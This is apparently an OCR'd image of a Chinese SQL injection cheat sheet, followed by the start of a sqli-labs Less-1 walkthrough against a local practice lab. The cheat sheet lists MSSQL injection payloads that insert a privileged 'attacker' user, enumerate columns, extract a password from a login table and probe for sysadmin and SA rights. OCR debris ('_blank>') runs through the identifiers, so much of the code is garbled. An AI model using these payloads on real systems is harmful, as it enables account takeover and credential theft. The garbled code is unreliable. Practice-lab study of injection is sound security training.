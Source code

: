 ```
group by users.id, users.username, users.password, users.privs having 1=1-- 
; insert into users values( 666, attacker, foobar, 0xffff )--

UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id)- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id,login_blank>_name)- 
UNION SELECT TOP 1 login_blank>_name FROM logintable- 
UNION SELECT TOP 1 password FROM logintable where login_blank>_name=Rahul--

看_blank>服务器打的补丁=出错了打了SP4补丁 
and 1=(select @@VERSION)--

看_blank>数据库连接账号的权限，返回正常，证明是_blank>服务器角色sysadmin权限。 
and 1=(SELECT IS_blank>_SRVROLEMEMBER(sysadmin))--

判断连接_blank>数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA） 
and sa=(SELECT System_blank>_user)-- 
and user_blank>_name()=dbo-- 
and 0<>(select user_blank>_name()--
```

## 联合查询

### 1

1. 闭合测试使用’报错。

```
http://127.0.0.1/sqli/Less-1/?id=1'  
#报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
http://127.0.0.1/sqli-labs-master/Less-1/?id=1‘--+
#不报错
```

可以使用‘用于闭合。

2. 查字段：

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 3--+   //正常
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4--+   //报错
#Unknown column '4' in 'order clause'
```
